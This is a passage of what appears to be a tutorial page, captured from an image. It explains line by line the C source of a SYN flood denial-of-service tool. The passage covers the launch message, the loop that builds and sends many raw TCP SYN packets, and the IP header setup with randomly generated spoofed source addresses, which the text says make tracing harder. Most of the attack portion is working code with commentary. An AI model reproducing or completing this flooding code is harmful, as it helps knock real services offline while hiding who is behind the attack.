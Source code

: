```c
    printf("[+] Starting the SYN flood %s:%d\n ", target_ip, target_port);
```

*   `printf(...)`: Displays a message about the start of the attack.

```c
    for(int i = 1; i <= packet_count; i++) {
        memset(packet, 0, PACKET_LEN);
```

*   `for(int i = 1; i <= packet_count; i++)`: A loop that will be executed `packet_count` times.  One SYN packet will be sent in each iteration.
* `memset(packet, 0, PACKET_LEN);`: Resets the entire `packet` buffer before creating a new packet. This cleans up the old data to avoid errors.

```c
        // Filling in the IP header
        iph->ihl = 5;
        iph->version = 4;
        iph->tos = 0;
        iph->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr);
        iph->id = htonl(rand() % 65535);
        iph->frag_off = 0;
        iph->ttl = 64;
        iph->protocol = IPPROTO_TCP;
        iph->check = 0;
        iph->daddr = sin.sin_addr.s_addr;

        // Generating a random source IP
        char *random_ip = generate_random_ip();
        iph->saddr = inet_addr(random_ip);
```

* **Filling in the IP header:** Here the fields of the IP header are filled in, which are used to control packet routing:
* `iph->ihl = 5;`:  The length of the IP header in 32-bit words (5 * 4 = 20 bytes, the standard size of the IP header).
    * `iph->version = 4;`: IP version (IPv4).
    * `iph->tos = 0;`: Service type (TOS).  It is usually used to determine the priority of a packet.
    *   `iph->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr);`: Total packet length (IP header + TCP header).
    * `iph->id = htonl(rand() %65535);`: Packet ID (for fragmentation).  'htonl()` converts the identifier number from host byte order to network byte order.  We generate a random number so that the packages have different IDs.
    *   `iph->frag_off = 0;`:  Fragment offset (used for packet fragmentation).
    * `iph->ttl = 64;`: Packet lifetime (TTL).  Determines how many hops through routers a packet can go through before it is dropped.
    * `iph->protocol = IPPROTO_TCP;`: Protocol (TCP).
    * `iph->check = 0;`: Header checksum (we will calculate it later).  Initially, we set it to 0.
    * `iph->daddr = sin.sin_addr.s_addr;`: Destination IP address (from the `sin` structure that we filled in earlier).
    * `char *random_ip = generate_random_ip();`: Calling the function `generate_random_ip()` (which we analyzed earlier) to generate a random source IP address.  It is important to use a fake source IP address to make the callback more difficult.
    * `iph->saddr = inet_addr(random_ip);`: Set a random source IP address in the IP header.

